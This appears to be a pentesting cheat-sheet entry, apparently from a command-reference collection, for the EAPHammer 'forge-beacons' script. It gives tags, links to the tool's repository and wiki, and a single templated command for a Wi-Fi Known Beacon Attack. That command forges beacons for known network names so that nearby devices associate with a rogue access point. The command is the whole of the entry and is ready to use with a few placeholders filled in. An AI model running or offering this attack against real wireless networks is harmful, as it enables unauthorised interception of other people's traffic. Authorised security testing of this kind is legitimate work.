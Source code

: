 # forge-beacons
% wifi, eaphammer, wpa-enterprise, wpa2-enterprise, eap, peap, forge-beacons, Known Beacon Attack
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
EAPHammer script to perform Known Beacon Attack
```

## _repo
```
https://github.com/s0lst1c3/eaphammer
```

## _doc
```
https://github.com/s0lst1c3/eaphammer/wiki
```

## _install
```
```

## known beacon attack
```bash
/usr/share/eaphammer/forge-beacons -i <wlan_interface|wlan0> --bssid $(cat /sys/class/net/<wlan_ap_interface|wlan0ap>/address) --known-essids-file <ssid_wordlist> --dst-addr <wlan_station_mac> --burst-count <beacon_counts|5>
```